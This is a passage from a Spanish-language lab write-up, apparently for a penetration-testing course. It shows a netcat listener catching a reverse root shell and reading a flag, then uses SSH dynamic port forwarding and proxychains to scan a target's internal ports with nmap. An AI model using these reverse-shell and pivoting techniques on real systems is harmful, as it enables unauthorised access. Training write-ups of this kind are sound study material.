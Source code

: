 Seguidamente activamos un listener de netcat en el puerto 4444 en nuestra máquina local y obtendremos en poco tiempo una shell de root:

```
nc -lvp 4444                               
listening on [any] 4444 ...
192.168.45.240: inverse host lookup failed: Unknown host
connect to [192.168.45.240] from (UNKNOWN) [192.168.45.240] 34980
bash: cannot set terminal process group (130): Inappropriate ioctl for device
bash: no job control in this shell
root@3d924c31581c:~# cat /root/flag.txt
cat /root/flag.txt
OS{aaf6ff4a117d7a6684c15eed3821f3b8}
```



### 3. Practice - SHH dinamic port forwarding.

**6.  There is a service running on some TCP port in the range of _30000-35000_ on the target VM #1. Find it, and you will find the flag. _Note_: this scan will take a couple minutes to complete, even with you only scanning such a limited range.**

En este caso, según el enunciado existe un servicio escuchando en la máquina remota. Intentando escanear la máquina de forma externa con Nmap no encontramos nada:

```
nmap -sV -Pn --min-rate 10000 192.168.209.52 -p-       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-12 08:25 EDT
Nmap scan report for 192.168.209.52
Host is up (0.030s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1.2 (Ubuntu Linux; protocol 2.0)
2222/tcp  open     ssh     OpenSSH 8.7p1 Debian 2 (protocol 2.0)

```


Con lo que se vuelve evidente que necesitamos escanear los servicios internos (aquellos que sólo están escuchando peticiones procedentes de direcciones internas como el loopback) de la máquina remota. Podríamos relizar esta tarea manualmente pero dado el rango disponibles de IPs nos tardaríamos una eternidad. Para agilizar el proceso podemos utilizar *Proxychains* y realizar un *SSH Dynamic Port Forwarding*.

En primer lugar, como Proxychains funciona por defecto sobre el puerto 9050, utilizamos el siguiente comando:

```
ssh -N -D 127.0.0.1:9050 student@192.168.209.52 -p 2222  
```

Este comando tuneliza sobre SSH el tráfico dirigido sobre el puerto local 9050 hacia la máquina 192.168.209.52 como el usuario *student*. 

Ahora empleamos Proxychains:

```
proxychains nmap -sTV -n -PN 127.0.0.1 -p 30000-35000
[...]

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:34023  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:34023 <--socket error or timeout!
Nmap scan report for 127.0.0.1
Host is up (0.037s latency).
Not shown: 5000 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
34023/tcp open  unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.56 seconds
```